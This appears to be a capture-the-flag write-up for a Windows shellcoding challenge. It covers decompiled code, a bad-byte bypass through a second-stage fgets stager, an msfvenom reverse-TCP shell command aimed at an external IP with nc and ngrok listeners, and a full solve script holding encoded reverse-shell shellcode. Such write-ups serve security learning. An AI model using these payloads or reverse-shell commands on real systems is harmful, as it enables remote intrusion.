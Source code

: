 # Pwn - Shellcoding
- Solved by: @Elma
- Flag: **-UNKNOWN-**

## Writeup

This is a windows shellcode challenge. If we analyze the program, we can see that it is a simple windows shellcode problem, with some blacklisted characters.

```c
__int64 sub_140001070()
{
  __int64 (__fastcall *v0)(__int64); // rsi
  unsigned __int64 v1; // rbx
  FILE *v2; // rax
  FILE *v3; // rax
  FILE *v4; // rax
  FILE *v5; // rax
  char v6; // cl
  __int64 result; // rax
  DWORD flOldProtect; // [rsp+2Ch] [rbp-4h] BYREF
  __int64 v9[4]; // [rsp+30h] [rbp+0h] BYREF

  sub_140001720();
  v9[0] = (unsigned __int64)v9 ^ unk_14000F050;
  v0 = off_14000F020;
  v1 = 0i64;
  v2 = (FILE *)off_14000F020(0i64);
  setvbuf(v2, 0i64, 4, 0i64);
  v3 = (FILE *)v0(1i64);
  setvbuf(v3, 0i64, 4, 0i64);
  v4 = (FILE *)v0(2i64);
  setvbuf(v4, 0i64, 4, 0i64);
  puts("Enter shellcode here:");
  v5 = (FILE *)v0(0i64);
  fgets(Address, 512, v5);
  do
  {
    if ( v1 > ~(unsigned __int64)Address )
    {
      exit(1);
    }
    v6 = Address[v1];
    if ( v6 == 0xE8 || v6 == 0x31 || v6 == 0xEB )
      Address[v1] = 0;
    ++v1;
  }
  while ( v1 != 512 );
  if ( VirtualProtect(Address, 0x200ui64, 0x40u, &flOldProtect) )
  {
    (*(void (**)(void))Address)();
    result = 0i64;
  }
  else
  {
    puts("An unexpected error has occured");
    result = 0xFFFFFFFFi64;
  }
  if ( unk_14000F050 != ((unsigned __int64)v9 ^ v9[0]) )
    sub_140002090();
  return result;
}
```

This is a summary of what happens

1. The program takes in input of 512 bytes into a buffer
2. The program checks for 0xE8, 0x31, 0xEB bytes, and nulls them
3. The program runs your input as shellcode

Typically for a windows shellcode challenge, we would use **msfvenom** to generate a shellcode that connects back to establish a reverse shell. Furthermore, **msfvenom** support shellcode encoders which will generate polymorphic shellcode in order to avoid a certain set of bad bytes that is provided by the user.

However, due to the program blocking the **jmp** opcode, msfvenom is unable to generate an encoded shellcode that will avoid the bytes. We can easily bypass this problem by writing a small shellcode that will call **fgets** to get another input that has less restrictions.

```py
stager_shellcode = asm("""
nop
lea rbx, [rip-0x8-53376]    # get the stdin file struct
mov rcx, 0
call rbx
mov r8, rax
mov rdx, 0x500
lea rcx, [rip+0x20-0x17]
lea rbx, [rip-0x8-14816-0x21]
call rbx                    # call fgets(buf, 0x500, stdin)
""")
```

With this small snippet, we can call for a second stage input. Afterwards, we will be able to generate a **msfvenom** shellcode using this following command

```sh
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=18.136.148.247 LPORT=16162 -f py -e x64/xor -b "\x0a\x1a\x0b"
# ...

$ nc -nlvp 4444 # listen on port 4444

# on a separate terminal
$ ngrok tcp 4444 # port forward 4444 through a ngrok tunnel
```

Here is the final solve script

```py
from pwintools import *
import sys
from keystone import *

ks = Ks(KS_ARCH_X86, KS_MODE_64)
p = Process("./shellcoding.exe")
log.info(f"pid @ {p.pid}")

sc_addr = 0x14000F060
fgets   = 0x14000B680
get_file = 0x140001FE0

print(fgets-sc_addr)

buf =  b"\x90"*5
buf += b"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d"
buf += b"\x05\xef\xff\xff\xff\x48\xbb\x79\xa5\x5f\x87\x9d"
buf += b"\x12\x9f\x7a\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
buf += b"\xff\xe2\xf4\x85\xed\xdc\x63\x6d\xfa\x5f\x7a\x79"
buf += b"\xa5\x1e\xd6\xdc\x42\xcd\x2b\x2f\xed\x6e\x55\xf8"
buf += b"\x5a\x14\x28\x19\xed\xd4\xd5\x85\x5a\x14\x28\x59"
buf += b"\xed\xd4\xf5\xcd\x5a\x90\xcd\x33\xef\x12\xb6\x54"
buf += b"\x5a\xae\xba\xd5\x99\x3e\xfb\x9f\x3e\xbf\x3b\xb8"
buf += b"\x6c\x52\xc6\x9c\xd3\x7d\x97\x2b\xe4\x0e\xcf\x16"
buf += b"\x40\xbf\xf1\x3b\x99\x17\x86\x4d\x99\x1f\xf2\x79"
buf += b"\xa5\x5f\xcf\x18\xd2\xeb\x1d\x31\xa4\x8f\xd7\x16"
buf += b"\x5a\x87\x3e\xf2\xe5\x7f\xce\x9c\xc2\x7c\x2c\x31"
buf += b"\x5a\x96\xc6\x16\x26\x17\x32\x78\x73\x12\xb6\x54"
buf += b"\x5a\xae\xba\xd5\xe4\x9e\x4e\x90\x53\x9e\xbb\x41"
buf += b"\x45\x2a\x76\xd1\x11\xd3\x5e\x71\xe0\x66\x56\xe8"
buf += b"\xca\xc7\x3e\xf2\xe5\x7b\xce\x9c\xc2\xf9\x3b\xf2"
buf += b"\xa9\x17\xc3\x16\x52\x83\x33\x78\x75\x1e\x0c\x99"
buf += b"\x9a\xd7\x7b\xa9\xe4\x07\xc6\xc5\x4c\xc6\x20\x38"
buf += b"\xfd\x1e\xde\xdc\x48\xd7\xf9\x95\x85\x1e\xd5\x62"
buf += b"\xf2\xc7\x3b\x20\xff\x17\x0c\x8f\xfb\xc8\x85\x86"
buf += b"\x5a\x02\xce\x23\x65\xec\x48\x26\x96\x6d\x87\x9d"
buf += b"\x53\xc9\x33\xf0\x43\x17\x06\x71\xb2\x9e\x7a\x79"
buf += b"\xec\xd6\x62\xd4\xae\x9d\x7a\x46\x87\x4d\x0f\x09"
buf += b"\xe5\xde\x2e\x30\x2c\xbb\xcb\x14\xe3\xde\xc0\x35"
buf += b"\xd2\x79\x80\x62\xc7\xd3\xf3\x93\xcd\x5e\x86\x9d"
buf += b"\x12\xc6\x3b\xc3\x8c\xdf\xec\x9d\xed\x4a\x2a\x29"
buf += b"\xe8\x6e\x4e\xd0\x23\x5f\x32\x86\x65\x17\x0e\x5f"
buf += b"\x5a\x60\xba\x31\x2c\x9e\xc6\x27\xf8\x90\xa5\x99"
buf += b"\x5a\x8a\xcf\x14\xd5\xf5\x6a\x38\xfd\x13\x0e\x7f"
buf += b"\x5a\x16\x83\x38\x1f\xc6\x22\xe9\x73\x60\xaf\x31"
buf += b"\x24\x9b\xc7\x9f\x12\x9f\x33\xc1\xc6\x32\xe3\x9d"
buf += b"\x12\x9f\x7a\x79\xe4\x0f\xc6\xcd\x5a\x16\x98\x2e"
buf += b"\xf2\x08\xca\xac\xd2\xf5\x77\x20\xe4\x0f\x65\x61"
buf += b"\x74\x58\x3e\x5d\xf1\x5e\x86\xd5\x9f\xdb\x5e\x61"
buf += b"\x63\x5f\xef\xd5\x9b\x79\x2c\x29\xe4\x0f\xc6\xcd"
buf += b"\x53\xcf\x33\x86\x65\x1e\xd7\xd4\xed\x57\x37\xf0"
buf += b"\x64\x13\x0e\x5c\x53\x25\x03\xb5\x9a\xd9\x78\x48"
buf += b"\x5a\xae\xa8\x31\x5a\x95\x0c\x93\x53\x25\x72\xfe"
buf += b"\xb8\x3f\x78\x48\xa9\x6f\xcf\xdb\xf3\x1e\x3d\x3b"
buf += b"\x87\x22\xe7\x86\x70\x17\x04\x59\x3a\xa3\x7c\x05"
buf += b"\xaf\xdf\x7c\x7d\x67\x9a\xc1\x3e\xb6\x2d\xe8\xf7"
buf += b"\x12\xc6\x3b\xf0\x7f\xa0\x52\x9d\x12\x9f\x7a"

sc = bytes(ks.asm("""
nop
lea rbx, [rip-0x8-53376]
mov rcx, 0
call rbx
mov r8, rax
mov rdx, 0x500
lea rcx, [rip+0x20-0x17]
lea rbx, [rip-0x8-14816-0x21]
call rbx
""")[0])
for i in sc:
    if i in [0xeb, 0xe8, 0x31]:
        print("BAD!")
print(sc)

input("press enter to continue")

p.sendline(sc)

input("press enter to continue")

p.sendline(buf)

p.interactive()
```
